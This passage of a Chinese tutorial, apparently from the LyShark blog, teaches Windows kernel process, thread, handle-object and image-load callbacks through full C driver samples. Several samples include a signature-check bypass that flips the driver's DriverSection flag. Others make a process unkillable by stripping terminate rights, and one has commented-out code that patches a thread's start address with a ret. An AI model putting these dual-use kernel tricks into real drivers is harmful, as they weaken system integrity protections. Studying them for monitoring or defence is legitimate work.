在前面的文章中`LyShark`一直在重复的实现对系统底层模块的枚举，今天我们将展开一个新的话题，内核监控，我们以`监控进程线程`创建为例，在`Win10`系统中监控进程与线程可以使用微软提供给我们的两个新函数来实现，此类函数的原理是创建一个回调事件，当有进程或线程被创建或者注销时，系统会通过回调机制将该进程相关信息优先返回给我们自己的函数待处理结束后再转向系统层。

PsSetCreateProcessNotifyRoutineEx和PsSetCreateThreadNotifyRoutine是Windows操作系统提供的两个内核回调函数，它们允许开发者在进程或线程发生创建事件时拦截并处理这些事件。这两个函数提供的回调机制是操作系统提供的最基本、最常用的内核监控进程与线程的方式。

PsSetCreateProcessNotifyRoutineEx和PsSetCreateThreadNotifyRoutine的使用方式和参数类型类似，它们都需要开发者提供一个回调函数，当进程或线程被创建时，操作系统会调用这个回调函数。这个回调函数需要满足一定的约束条件，例如不能阻塞或挂起进程或线程的创建或访问，不能调用一些内核API函数等。

PsSetCreateProcessNotifyRoutineEx和PsSetCreateThreadNotifyRoutine的主要区别在于它们所监控的事件不同。PsSetCreateProcessNotifyRoutineEx用于监控进程的创建事件，当有新的进程被创建时，操作系统会调用注册的回调函数。而PsSetCreateThreadNotifyRoutine用于监控线程的创建事件，当有新的线程被创建时，操作系统会调用注册的回调函数。

内核监控进程PsSetCreateProcessNotifyRoutineEx和线程PsSetCreateThreadNotifyRoutine回调在安全软件、系统监控和调试工具等领域有着广泛的应用。需要注意的是，在Windows 8及更高版本的操作系统中，微软推荐开发者使用ExRegisterCallback和ExUnregisterCallback函数进行回调的注册和注销。

进程回调默认会设置`CreateProcess`通知，而线程回调则会设置`CreateThread`通知，我们来看ARK工具中的枚举效果。



 - 通常情况下:
   - PsSetCreateProcessNotifyRoutineEx 用于监控进程
   - PsSetCreateThreadNotifyRoutine 用于监控线程

监控进程的启动与退出可以使用 `PsSetCreateProcessNotifyRoutineEx`来创建回调，当新进程创建时会优先执行回调，我们看下微软是如何定义的结构。
```c
// 参数1: 新进程回调函数
// 参数2: 是否注销
NTSTATUS PsSetCreateProcessNotifyRoutineEx(
  [in] PCREATE_PROCESS_NOTIFY_ROUTINE_EX NotifyRoutine,
  [in] BOOLEAN                           Remove
);
```
如上，该函数只有两个参数，第一个参数是回调函数，第二个参数是是否注销，通常在驱动退出时可以传入`TRUE`对该回调进行注销，通常情况下如果驱动关闭，则必须要注销回调，而对于`MyLySharkCreateProcessNotifyEx`自定义回调来说，则需要指定三个必须要有的参数传递。
```c
// 参数1: 新进程的EProcess
// 参数2: 新进程PID
// 参数3: 新进程详细信息 (仅在创建进程时有效)

VOID MyLySharkCreateProcessNotifyEx(PEPROCESS Process, HANDLE ProcessId, PPS_CREATE_NOTIFY_INFO CreateInfo)
```
根据如上函数定义，就可以实现监控功能了，例如我们监控如果进程名是`lyshark.exe`则直接`CreateInfo->CreationStatus = STATUS_UNSUCCESSFUL`禁止该进程打开。
```c
#include <ntifs.h>

// 两个未公开函数导出
NTKERNELAPI PCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);

// 通过PID获得进程名
PCHAR GetProcessNameByProcessId(HANDLE ProcessId)
{
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    PEPROCESS ProcessObj = NULL;
    PCHAR string = NULL;
    st = PsLookupProcessByProcessId(ProcessId, &ProcessObj);
    if (NT_SUCCESS(st))
    {
        string = PsGetProcessImageFileName(ProcessObj);
        ObfDereferenceObject(ProcessObj);
    }
    return string;
}

// 绕过签名检查
BOOLEAN BypassCheckSign(PDRIVER_OBJECT pDriverObject)
{
#ifdef _WIN64
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG64 __Undefined1;
        ULONG64 __Undefined2;
        ULONG64 __Undefined3;
        ULONG64 NonPagedDebugInfo;
        ULONG64 DllBase;
        ULONG64 EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
        USHORT  LoadCount;
        USHORT  __Undefined5;
        ULONG64 __Undefined6;
        ULONG   CheckSum;
        ULONG   __padding1;
        ULONG   TimeDateStamp;
        ULONG   __padding2;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#else
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG unknown1;
        ULONG unknown2;
        ULONG unknown3;
        ULONG unknown4;
        ULONG unknown5;
        ULONG unknown6;
        ULONG unknown7;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#endif

    PKLDR_DATA_TABLE_ENTRY pLdrData = (PKLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
    pLdrData->Flags = pLdrData->Flags | 0x20;

    return TRUE;
}

// 进程回调函数
VOID My_LyShark_Com_CreateProcessNotifyEx(PEPROCESS Process, HANDLE ProcessId, PPS_CREATE_NOTIFY_INFO CreateInfo)
{
    char ProcName[16] = { 0 };
    if (CreateInfo != NULL)
    {
        strcpy_s(ProcName, 16, PsGetProcessImageFileName(Process));
        DbgPrint("[LyShark] 父进程ID: %ld | 父进程名: %s | 进程名: %s | 进程路径：%wZ \n", CreateInfo->ParentProcessId, GetProcessNameByProcessId(CreateInfo->ParentProcessId), PsGetProcessImageFileName(Process), CreateInfo->ImageFileName);

        // 判断是否为指定进程
        if (0 == _stricmp(ProcName, "lyshark.exe"))
        {
            // 禁止打开
            CreateInfo->CreationStatus = STATUS_UNSUCCESSFUL;
        }
    }
    else
    {
        strcpy_s(ProcName, 16, PsGetProcessImageFileName(Process));
        DbgPrint("[LyShark] 进程[ %s ] 退出了, 程序被关闭", ProcName);
    }
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DWORD32 ref = 0;

    // 注销进程回调
    ref = PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)My_LyShark_Com_CreateProcessNotifyEx, TRUE);
    DbgPrint("[lyshark.com] 注销进程回调: %d \n", ref);
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;

    // 绕过签名检查
    // LINKER_FLAGS=/INTEGRITYCHECK
    BypassCheckSign(Driver);

    DbgPrint("hello lyshark.com \n");

    // 创建进程回调
    // 参数1: 新进程的EProcess
    // 参数2: 新进程PID
    // 参数3: 新进程详细信息 (仅在创建进程时有效)
    status = PsSetCreateProcessNotifyRoutineEx((PCREATE_PROCESS_NOTIFY_ROUTINE_EX)My_LyShark_Com_CreateProcessNotifyEx, FALSE);
    if (!NT_SUCCESS(status))
    {
        DbgPrint("[lyshark.com] 创建进程回调错误");
    }
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行这个驱动程序，我们可以在`ARK`工具中看到这个驱动所加载的`CreateProcess`的回调事件。



当驱动加载后，如果你尝试打开`lyshark.exe`那么会提示连接的设备没有发挥作用，我们则成功拦截了这次打开，当然如果在打开进程之前扫描其特征并根据特征拒绝进程打开，那么就可以实现一个简单的防恶意程序，进程监控在防恶意程序中也是用的最多的。



说完了`PsSetCreateProcessNotifyRoutineEx`回调的使用方式，LyShark将继续带大家看看`线程监控`如何实现，监控线程创建与监控进程差不多，检测线程需要调用`PsSetCreateThreadNotifyRoutine` 创建回调函数，之后就可监控系统所有线程的创建，具体实现代码如下。
```c
#include <ntifs.h>

// 两个未公开函数导出
NTKERNELAPI PCHAR PsGetProcessImageFileName(PEPROCESS Process);
NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI NTSTATUS PsLookupThreadByThreadId(HANDLE ThreadId, PETHREAD *Thread);

// 绕过签名检查
BOOLEAN BypassCheckSign(PDRIVER_OBJECT pDriverObject)
{
#ifdef _WIN64
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG64 __Undefined1;
        ULONG64 __Undefined2;
        ULONG64 __Undefined3;
        ULONG64 NonPagedDebugInfo;
        ULONG64 DllBase;
        ULONG64 EntryPoint;
        ULONG SizeOfImage;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
        USHORT  LoadCount;
        USHORT  __Undefined5;
        ULONG64 __Undefined6;
        ULONG   CheckSum;
        ULONG   __padding1;
        ULONG   TimeDateStamp;
        ULONG   __padding2;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#else
    typedef struct _KLDR_DATA_TABLE_ENTRY
    {
        LIST_ENTRY listEntry;
        ULONG unknown1;
        ULONG unknown2;
        ULONG unknown3;
        ULONG unknown4;
        ULONG unknown5;
        ULONG unknown6;
        ULONG unknown7;
        UNICODE_STRING path;
        UNICODE_STRING name;
        ULONG   Flags;
    } KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;
#endif

    PKLDR_DATA_TABLE_ENTRY pLdrData = (PKLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
    pLdrData->Flags = pLdrData->Flags | 0x20;

    return TRUE;
}

// 线程回调函数
VOID MyCreateThreadNotify(HANDLE ProcessId, HANDLE ThreadId, BOOLEAN CreateInfo)
{
    PEPROCESS eprocess = NULL;
    PETHREAD ethread = NULL;
    UCHAR *pWin32Address = NULL;

    // 通过此函数拿到程序的EPROCESS结构
    PsLookupProcessByProcessId(ProcessId, &eprocess);
    PsLookupThreadByThreadId(ThreadId, &ethread);

    if (CreateInfo)
    {
        DbgPrint("[lyshark.com] 线程TID: %1d | 所属进程名: %s | 进程PID: %1d \n", ThreadId, PsGetProcessImageFileName(eprocess), PsGetProcessId(eprocess));
        /*
        if (0 == _stricmp(PsGetProcessImageFileName(eprocess), "lyshark.exe"))
        {
        DbgPrint("线程TID: %1d | 所属进程名: %s | 进程PID: %1d \n", ThreadId, PsGetProcessImageFileName(eprocess), PsGetProcessId(eprocess));

        // dt _kthread
        // 寻找里面的 Win32StartAddress 并写入ret
        pWin32Address = *(UCHAR**)((UCHAR*)ethread + 0x1c8);
        if (MmIsAddressValid(pWin32Address))
        {
        *pWin32Address = 0xC3;
        }
        }
        */
    }
    else
    {
        DbgPrint("[LyShark] %s 线程已退出...", ThreadId);
    }

    if (eprocess)
        ObDereferenceObject(eprocess);
    if (ethread)
        ObDereferenceObject(ethread);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    NTSTATUS status;

    // 注销进程回调
    status = PsRemoveCreateThreadNotifyRoutine(MyCreateThreadNotify);
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;

    DbgPrint("hello lyshark.com \n");

    // 绕过签名检查
    // LINKER_FLAGS=/INTEGRITYCHECK
    BypassCheckSign(Driver);

    // 创建线程回调
    // 参数1: 新线程ProcessID
    // 参数2: 新线程ThreadID
    // 参数3: 线程创建/退出标志
    status = PsSetCreateThreadNotifyRoutine(MyCreateThreadNotify);
    if (!NT_SUCCESS(status))
    {
        DbgPrint("创建线程回调错误");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行后则可监控到系统总所有线程的创建与退出，效果如下所示：




### 7.2 内核注册并监控对象回调

在笔者上一篇文章`《内核枚举进程与线程ObCall回调》`简单介绍了如何枚举系统中已经存在的`进程与线程`回调，本章`LyShark`将通过对象回调实现对进程线程的`句柄`监控，在内核中提供了`ObRegisterCallbacks`回调，使用这个内核`回调`函数，可注册一个`对象`回调，不过目前该函数`只能`监控进程与线程句柄操作，通过监控进程或线程句柄，可实现保护指定进程线程不被终止的目的。

ObRegisterCallbacks是Windows操作系统提供的一个内核API函数，它允许开发者注册一个回调函数，用于监控对象的创建、打开、关闭和删除等事件。对象可以是文件、目录、进程、线程、注册表键等等。

当操作系统创建、打开、关闭或删除一个对象时，它会触发注册的回调函数，然后在回调函数中调用开发者定义的代码。开发者可以在回调函数中执行自定义的逻辑，例如记录日志、过滤敏感数据、或者阻止某些操作。

ObRegisterCallbacks函数提供了多个回调函数的注册，这些回调函数包括：

 - PreOperation: 在操作执行之前被调用，可以阻止或修改操作。
 - PostOperation: 在操作执行之后被调用，可以记录操作结果或者清理资源。

需要注意的是，注册回调函数需要开发者有一定的内核开发经验，并且需要遵守一些约束条件，例如不能阻塞或挂起对象的操作，不能调用一些内核API函数等。

内核注册并监控对象回调ObRegisterCallbacks在安全软件、系统监控和调试工具等领域有着广泛的应用。开发者可以利用这个机制来监控系统对象的使用情况，以保护系统安全。

由于目前对象回调只能监控进程与线程，而这个监控是通过`ObjectType`这么一个成员控制的，如果成员是`PsProcessType`则代表监控进程，反之`PsThreadType`则是监控线程，无论监控进程还是线程都调用`ObRegisterCallbacks`这个函数来完成注册。

函数`ObRegisterCallbacks`其微软对他的定义是这样的，用户传入`OB_OPERATION_REGISTRATION`结构，以及`OB_CALLBACK_REGISTRATION`回调结构，其中`PreOperation`则是传入的回调函数，也是最重要的，其次是`ObjectType`指定成进程回调。
```c
NTSTATUS ObRegisterCallbacks(
  [in]  POB_CALLBACK_REGISTRATION CallbackRegistration,
  [out] PVOID                     *RegistrationHandle
);
```
首先来实现一个检测的案例，注册一个进程回调对象`MyLySharkComObjectCallBack`，通过`ObRegisterCallbacks`注册的回调只需要传入一个填充好的`OB_CALLBACK_REGISTRATION`回调结构体，以及一个全局句柄即可，这个全局句柄的作用仅仅只是在程序结束时，调用`ObUnRegisterCallbacks`卸载监控而已，实现代码如下所示。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

PVOID Globle_Object_Handle;

// 绕过签名检测
void BypassCheckSign(PDRIVER_OBJECT pDriverObj)
{
    typedef struct _LDR_DATA
    {
        struct _LIST_ENTRY InLoadOrderLinks;
        struct _LIST_ENTRY InMemoryOrderLinks;
        struct _LIST_ENTRY InInitializationOrderLinks;
        VOID*        DllBase;
        VOID*        EntryPoint;
        ULONG32      SizeOfImage;
        UINT8        _PADDING0_[0x4];
        struct _UNICODE_STRING FullDllName;
        struct _UNICODE_STRING BaseDllName;
        ULONG32      Flags;
    }LDR_DATA, *PLDR_DATA;

    PLDR_DATA ldr;
    ldr = (PLDR_DATA)(pDriverObj->DriverSection);
    ldr->Flags |= 0x20;
}

// 自定义回调
OB_PREOP_CALLBACK_STATUS MyLySharkComObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION OperationInformation)
{
    DbgPrint("[lyshark] 执行回调函数... \n");
    return STATUS_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    ObUnRegisterCallbacks(Globle_Object_Handle);
    DbgPrint("回调卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    BypassCheckSign(Driver);

    OB_OPERATION_REGISTRATION Base;                          // 回调函数结构体
    OB_CALLBACK_REGISTRATION CallbackReg;                    // 回调函数

    CallbackReg.RegistrationContext = NULL;                  // 注册上下文(你回调函数返回参数)
    CallbackReg.Version = OB_FLT_REGISTRATION_VERSION;       // 注册回调版本
    CallbackReg.OperationRegistration = &Base;               // 回调结构体
    CallbackReg.OperationRegistrationCount = 1;              // 操作计数(下钩数量)

    RtlUnicodeStringInit(&CallbackReg.Altitude, L"600000");   // 长度
    Base.ObjectType = PsProcessType;                          // 进程操作类型.此处为进程操作
    Base.Operations = OB_OPERATION_HANDLE_CREATE;             // 操作句柄创建
    Base.PreOperation = MyLySharkComObjectCallBack;           // 你自己的回调函数
    Base.PostOperation = NULL;

    // 注册回调
    if (ObRegisterCallbacks(&CallbackReg, &Globle_Object_Handle))
    {
        DbgPrint("[lyshark message] 回调注册成功...");
    }
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

当驱动程序被加载以后，一旦有进程运行则会执行我们自己的`MyLySharkComObjectCallBack`回调，而在回调函数内则可以执行任意功能，运行如下所示。



如上所示只是演示基本的回调申请流程，回调函数通常需要包含两个值，其一`RegistrationContext`用于标注上下文，其二`POB_PRE_OPERATION_INFORMATION`则用于标注进程或者线程创建的信息结构体。
```c
OB_PREOP_CALLBACK_STATUS MyLySharkComObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION OperationInformation)
```
那么如何实现`拦截进程启动`这个功能呢，我们可以在回调函数中写入以下代码进行拦截。

 - CreateHandleInformation.DesiredAccess 将打开句柄的权限清零
 - CreateHandleInformation.OriginalDesiredAccess 判断是否终止

```c
if (pOperationInformation->Operation == OB_OPERATION_HANDLE_CREATE)
{
    DbgPrint("lyshark.exe 进程打开 \n");
    pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess=0;
    if ((pOperationInformation->Parameters->CreateHandleInformation.OriginalDesiredAccess & PROCESS_TERMINATE) == PROCESS_TERMINATE)
    {
        pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess &= ~PROCESS_TERMINATE;
    }
}
```
拦截进程创建核心代码如下所示。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

#define PROCESS_TERMINATE 0x1

// 导出两个API
NTKERNELAPI PEPROCESS IoThreadToProcess(PETHREAD Thread);
NTKERNELAPI char* PsGetProcessImageFileName(PEPROCESS Process);

// 全局句柄
PVOID Globle_Object_Handle = NULL;

// 绕过签名检测
void BypassCheckSign(PDRIVER_OBJECT pDriverObj)
{
    typedef struct _LDR_DATA
    {
        struct _LIST_ENTRY InLoadOrderLinks;
        struct _LIST_ENTRY InMemoryOrderLinks;
        struct _LIST_ENTRY InInitializationOrderLinks;
        VOID*        DllBase;
        VOID*        EntryPoint;
        ULONG32      SizeOfImage;
        UINT8        _PADDING0_[0x4];
        struct _UNICODE_STRING FullDllName;
        struct _UNICODE_STRING BaseDllName;
        ULONG32      Flags;
    }LDR_DATA, *PLDR_DATA;

    PLDR_DATA ldr;
    ldr = (PLDR_DATA)(pDriverObj->DriverSection);
    ldr->Flags |= 0x20;
}

// 判断是否是需要保护的进程
BOOLEAN CheckProcess(PEPROCESS eprocess)
{
    char *Name = PsGetProcessImageFileName(eprocess);
    if (!_stricmp("lyshark.exe", Name))
        return TRUE;
    else
        return FALSE;
}

// 进程回调
OB_PREOP_CALLBACK_STATUS MyLySharkProcessObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION pOperationInformation)
{
    HANDLE pid;

    // 只取出进程回调
    if (pOperationInformation->ObjectType != *PsProcessType)
    {
        return OB_PREOP_SUCCESS;
    }

    // 得到所有进程的ID
    pid = PsGetProcessId((PEPROCESS)pOperationInformation->Object);
    // DbgPrint("进程PID= %ld \n", pid);

    UNREFERENCED_PARAMETER(RegistrationContext);

    // 验证是否是需要的进程
    if (CheckProcess((PEPROCESS)pOperationInformation->Object))
    {
        // 创建句柄
        if (pOperationInformation->Operation == OB_OPERATION_HANDLE_CREATE)
        {
            DbgPrint("lyshark.exe 进程打开事件 \n");
            pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess=0;
            if ((pOperationInformation->Parameters->CreateHandleInformation.OriginalDesiredAccess & PROCESS_TERMINATE) == PROCESS_TERMINATE)
            {
                DbgPrint("[LyShark Message] 拦截进程打开 \n");
                pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess &= ~PROCESS_TERMINATE;
            }
        }
        // 复制句柄
        if (pOperationInformation->Operation == OB_OPERATION_HANDLE_DUPLICATE)
        {
            DbgPrint("lyshark.exe 进程被关闭 \n");
            pOperationInformation->Parameters->DuplicateHandleInformation.DesiredAccess=0;
            if ((pOperationInformation->Parameters->DuplicateHandleInformation.OriginalDesiredAccess & PROCESS_TERMINATE) == PROCESS_TERMINATE)
            {
                pOperationInformation->Parameters->DuplicateHandleInformation.DesiredAccess &= ~PROCESS_TERMINATE;
            }
        }
    }
    return OB_PREOP_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    ObUnRegisterCallbacks(Globle_Object_Handle);
    DbgPrint("回调卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    BypassCheckSign(Driver);

    OB_OPERATION_REGISTRATION ob_process_callback;
    OB_CALLBACK_REGISTRATION op_process_operation;

    memset(&ob_process_callback, 0, sizeof(ob_process_callback));
    ob_process_callback.ObjectType = PsProcessType;
    ob_process_callback.Operations = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
    ob_process_callback.PreOperation = MyLySharkProcessObjectCallBack;
    ob_process_callback.PostOperation = NULL;

    RtlUnicodeStringInit(&op_process_operation.Altitude, L"600000");
    op_process_operation.RegistrationContext = NULL;
    op_process_operation.Version = OB_FLT_REGISTRATION_VERSION;
    op_process_operation.OperationRegistration = &ob_process_callback;
    op_process_operation.OperationRegistrationCount = 1;

    // 注册进程回调
    if (ObRegisterCallbacks(&op_process_operation, &Globle_Object_Handle))
    {
        DbgPrint("进程回调注册成功...");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

加载这个驱动，当有进程被创建时，则首先判断是否是`lyshark.exe`如果是则直接禁止打开，也就是终止掉。



同理进程可以被拦截，那么如果增加更多的过滤条件，则`线程`同样可以被拦截，拦截线程代码如下所示。
```c
#include <ntddk.h>
#include <ntstrsafe.h>

#define THREAD_TERMINATE2 0x1

// 导出两个API
NTKERNELAPI PEPROCESS IoThreadToProcess(PETHREAD Thread);
NTKERNELAPI char* PsGetProcessImageFileName(PEPROCESS Process);

// 全局句柄
PVOID Globle_Object_Handle = NULL;

// 绕过签名检测
void BypassCheckSign(PDRIVER_OBJECT pDriverObj)
{
    typedef struct _LDR_DATA
    {
        struct _LIST_ENTRY InLoadOrderLinks;
        struct _LIST_ENTRY InMemoryOrderLinks;
        struct _LIST_ENTRY InInitializationOrderLinks;
        VOID*        DllBase;
        VOID*        EntryPoint;
        ULONG32      SizeOfImage;
        UINT8        _PADDING0_[0x4];
        struct _UNICODE_STRING FullDllName;
        struct _UNICODE_STRING BaseDllName;
        ULONG32      Flags;
    }LDR_DATA, *PLDR_DATA;

    PLDR_DATA ldr;
    ldr = (PLDR_DATA)(pDriverObj->DriverSection);
    ldr->Flags |= 0x20;
}

// 判断是否是需要保护的进程
BOOLEAN CheckProcess(PEPROCESS eprocess)
{
    char *Name = PsGetProcessImageFileName(eprocess);
    if (!_stricmp("lyshark.exe", Name))
        return TRUE;
    else
        return FALSE;
}

// 线程回调
OB_PREOP_CALLBACK_STATUS MyThreadObjectCallBack(PVOID RegistrationContext, POB_PRE_OPERATION_INFORMATION pOperationInformation)
{
    PEPROCESS ep;
    PETHREAD et;
    HANDLE pid;

    // 线程过滤
    if (pOperationInformation->ObjectType != *PsThreadType)
    {
        return OB_PREOP_SUCCESS;
    }

    et = (PETHREAD)pOperationInformation->Object;
    ep = IoThreadToProcess(et);
    pid = PsGetProcessId(ep);

    // DbgPrint("线程PID= %ld | TID= %ld \n", pid, PsGetThreadId(et));
    UNREFERENCED_PARAMETER(RegistrationContext);

    if (CheckProcess(ep))
    {
        if (pOperationInformation->Operation == OB_OPERATION_HANDLE_CREATE)
        {
            pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess=0;
            if ((pOperationInformation->Parameters->CreateHandleInformation.OriginalDesiredAccess & THREAD_TERMINATE2) == THREAD_TERMINATE2)
            {
                DbgPrint("[LyShark] 拦截lyshark.exe进程内 %d 线程创建 \n", PsGetThreadId(et));
                pOperationInformation->Parameters->CreateHandleInformation.DesiredAccess &= ~THREAD_TERMINATE2;
            }
        }
        if (pOperationInformation->Operation == OB_OPERATION_HANDLE_DUPLICATE)
        {
            pOperationInformation->Parameters->DuplicateHandleInformation.DesiredAccess=0;
            if ((pOperationInformation->Parameters->DuplicateHandleInformation.OriginalDesiredAccess & THREAD_TERMINATE2) == THREAD_TERMINATE2)
            {
                pOperationInformation->Parameters->DuplicateHandleInformation.DesiredAccess &= ~THREAD_TERMINATE2;
            }
        }
    }
    return OB_PREOP_SUCCESS;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    ObUnRegisterCallbacks(Globle_Object_Handle);
    DbgPrint("回调卸载完成... \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    BypassCheckSign(Driver);

    OB_OPERATION_REGISTRATION ob_thread_callback;
    OB_CALLBACK_REGISTRATION op_thread_operation;

    memset(&ob_thread_callback, 0, sizeof(ob_thread_callback));
    ob_thread_callback.ObjectType = PsThreadType;
    ob_thread_callback.Operations = OB_OPERATION_HANDLE_CREATE | OB_OPERATION_HANDLE_DUPLICATE;
    ob_thread_callback.PreOperation = MyThreadObjectCallBack;
    ob_thread_callback.PostOperation = NULL;

    RtlUnicodeStringInit(&op_thread_operation.Altitude, L"600001");
    op_thread_operation.RegistrationContext = NULL;
    op_thread_operation.Version = OB_FLT_REGISTRATION_VERSION;
    op_thread_operation.OperationRegistration = &ob_thread_callback;
    op_thread_operation.OperationRegistrationCount = 1;

    // 注册进程回调
    if (ObRegisterCallbacks(&op_thread_operation, &Globle_Object_Handle))
    {
        DbgPrint("进程回调注册成功...");
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

这段驱动加载后，如果有新线程被创建，则会被拦截并打印输出，效果图如下。



### 7.3 内核监视LoadImage映像回调

在笔者上一篇文章`《内核注册并监控对象回调》`介绍了如何运用`ObRegisterCallbacks`注册`进程与线程`回调，并通过该回调实现了`拦截`指定进行运行的效果，本章`LyShark`将带大家继续探索一个新的回调注册函数，`PsSetLoadImageNotifyRoutine`常用于注册`LoadImage`映像监视，当有模块被系统加载时则可以第一时间获取到加载模块信息，需要注意的是该回调函数内无法进行拦截，如需要拦截则需写入返回指令这部分内容将在下一章进行讲解，本章将主要实现对模块的监视功能。

PsSetLoadImageNotifyRoutine和PsRemoveLoadImageNotifyRoutine是Windows操作系统提供的两个内核API函数，用于注册和取消注册LoadImage映像的回调函数。

LoadImage映像回调函数是一种内核回调函数，它可以用于监视和拦截系统中的模块加载事件，例如进程启动时加载的DLL、驱动程序等。当有新的模块被加载时，操作系统会调用注册的LoadImage映像回调函数，并将加载模块的相关信息传递给回调函数。

PsSetLoadImageNotifyRoutine函数用于注册LoadImage映像的回调函数，而PsRemoveLoadImageNotifyRoutine函数则用于取消注册已经注册的回调函数。开发者可以在LoadImage映像回调函数中执行自定义的逻辑，例如记录日志、过滤敏感数据、或者阻止某些操作。

需要注意的是，LoadImage映像回调函数的注册和取消注册必须在内核模式下进行，并且需要开发者有一定的内核开发经验。同时，LoadImage映像回调函数也需要遵守一些约束条件，例如不能阻塞或挂起进程或线程的创建或访问，不能调用一些内核API函数等。

内核监视LoadImage映像回调在安全软件、系统监控和调试工具等领域有着广泛的应用。开发者可以利用这个机制来监视和拦截系统中的模块加载事件，以保护系统安全。

监视模块加载与卸载需要费别使用两个函数，这两个函数的参数传递都是自己的回调地址。

 - PsSetLoadImageNotifyRoutine 设置回调
 - PsRemoveLoadImageNotifyRoutine 移除回调

此处`MyLySharkLoadImageNotifyRoutine`回调地址必须有三个参数传递组成，其中`FullImageName`代表完整路径，`ModuleStyle`代表模块类型，一般来说`ModuleStyle=0`表示加载SYS驱动，如果`ModuleStyle=1`则表示加载的是`DLL`，最后一个参数`ImageInfo`则是映像的详细参数结构体。
```c
VOID MyLySharkLoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ModuleStyle, PIMAGE_INFO ImageInfo)
```
那么如何实现监视映像加载呢，来看如下完整代码片段，首先`PsSetLoadImageNotifyRoutine`注册回调，当有模块被加载则自动执行`MyLySharkLoadImageNotifyRoutine`回调函数，其内部首先判断`ModuleStyle`得出是什么类型的模块，然后再通过`GetDriverEntryByImageBase`拿到当前进程详细参数并打印输出。
```c
#include <ntddk.h>
#include <ntimage.h>

// 未导出函数声明
PUCHAR PsGetProcessImageFileName(PEPROCESS pEProcess);

// 获取到镜像装载基地址
PVOID GetDriverEntryByImageBase(PVOID ImageBase)
{
    PIMAGE_DOS_HEADER pDOSHeader;
    PIMAGE_NT_HEADERS64 pNTHeader;
    PVOID pEntryPoint;
    pDOSHeader = (PIMAGE_DOS_HEADER)ImageBase;
    pNTHeader = (PIMAGE_NT_HEADERS64)((ULONG64)ImageBase + pDOSHeader->e_lfanew);
    pEntryPoint = (PVOID)((ULONG64)ImageBase + pNTHeader->OptionalHeader.AddressOfEntryPoint);
    return pEntryPoint;
}

// 获取当前进程名
UCHAR* GetCurrentProcessName()
{
    PEPROCESS pEProcess = PsGetCurrentProcess();
    if (NULL != pEProcess)
    {
        UCHAR *lpszProcessName = PsGetProcessImageFileName(pEProcess);
        if (NULL != lpszProcessName)
        {
            return lpszProcessName;
        }
    }
    return NULL;
}

// 设置自己的回调函数
VOID MyLySharkLoadImageNotifyRoutine(PUNICODE_STRING FullImageName, HANDLE ModuleStyle, PIMAGE_INFO ImageInfo)
{
    PVOID pDrvEntry;

    // MmIsAddress 验证地址可用性
    if (FullImageName != NULL && MmIsAddressValid(FullImageName))
    {
        // ModuleStyle为零表示加载sys
        if (ModuleStyle == 0)
        {
            // 得到装载主进程名
            UCHAR *load_name = GetCurrentProcessName();
            pDrvEntry = GetDriverEntryByImageBase(ImageInfo->ImageBase);
            DbgPrint("[LyShark SYS加载] 模块名称:%wZ --> 装载基址:%p --> 镜像长度: %d --> 装载主进程: %s \n", FullImageName, pDrvEntry, ImageInfo->ImageSize, load_name);
        }
        // ModuleStyle非零表示加载DLL
